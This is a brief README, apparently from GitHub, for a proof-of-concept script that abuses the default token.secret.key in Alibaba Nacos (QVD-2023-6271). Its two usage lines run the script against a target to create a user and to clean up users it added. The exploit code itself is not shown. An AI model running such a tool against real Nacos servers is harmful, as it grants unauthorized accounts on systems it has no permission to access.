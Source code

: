 # Nacos_SecretKey_poc

QVD-2023-6271 

Alibaba Nacos存在默认token.secret.key利用脚本

···
python poc.py -e xxx.com #新增用户
python poc.py -c xxx.com #清理脚本增加的用户
··· 



